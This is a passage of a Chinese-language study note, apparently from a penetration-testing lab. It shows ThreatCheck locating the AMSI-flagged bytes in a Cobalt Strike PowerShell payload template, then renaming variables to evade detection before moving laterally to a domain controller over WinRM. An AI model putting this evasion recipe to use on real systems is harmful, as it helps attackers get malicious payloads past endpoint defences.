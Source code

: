 -a----         6/7/2017   3:26 PM           3856 template.x86.vba
```

template.x64.ps1就是jump winrm64用到的模板



```
c:\>c:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -e AMSI -f c:\Tools\cobaltstrike\ResourceKit\template.x64.ps1
[+] Target file size: 2371 bytes
[+] Analyzing...
...
[!] Identified end of bad bytes at offset 0x703
00000000   6E 74 61 74 69 6F 6E 46  6C 61 67 73 28 27 52 75   ntationFlags('Ru
00000010   6E 74 69 6D 65 2C 20 4D  61 6E 61 67 65 64 27 29   ntime, Managed')
00000020   0A 0A 09 72 65 74 75 72  6E 20 24 76 61 72 5F 74   ···return $var_t
00000030   79 70 65 5F 62 75 69 6C  64 65 72 2E 43 72 65 61   ype_builder.Crea
00000040   74 65 54 79 70 65 28 29  0A 7D 0A 0A 49 66 20 28   teType()·}··If (
00000050   5B 49 6E 74 50 74 72 5D  3A 3A 73 69 7A 65 20 2D   [IntPtr]::size -
00000060   65 71 20 38 29 20 7B 0A  09 5B 42 79 74 65 5B 5D   eq 8) {··[Byte[]
00000070   5D 24 76 61 72 5F 63 6F  64 65 20 3D 20 5B 53 79   ]$var_code = [Sy
00000080   73 74 65 6D 2E 43 6F 6E  76 65 72 74 5D 3A 3A 46   stem.Convert]::F
00000090   72 6F 6D 42 61 73 65 36  34 53 74 72 69 6E 67 28   romBase64String(
000000A0   27 25 25 44 41 54 41 25  25 27 29 0A 0A 09 66 6F   '%%DATA%%')···fo
000000B0   72 20 28 24 78 20 3D 20  30 3B 20 24 78 20 2D 6C   r ($x = 0; $x -l
000000C0   74 20 24 76 61 72 5F 63  6F 64 65 2E 43 6F 75 6E   t $var_code.Coun
000000D0   74 3B 20 24 78 2B 2B 29  20 7B 0A 09 09 24 76 61   t; $x++) {···$va
000000E0   72 5F 63 6F 64 65 5B 24  78 5D 20 3D 20 24 76 61   r_code[$x] = $va
000000F0   72 5F 63 6F 64 65 5B 24  78 5D 20 2D 62 78 6F 72   r_code[$x] -bxor

[*] Run time: 2.4s
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661565495138.png)

思路就是替换变量名
```
$x->$i
$var_code->$apple
```

打开template.x64.ps1，把


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661565684266.png)

换成


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661565817548.png)

再次检查，已没有检测到威胁


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661565893611.png)

重新去load一次resouces.cna


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661566324482.png)

现在可以用winrm64横向到dc-2

```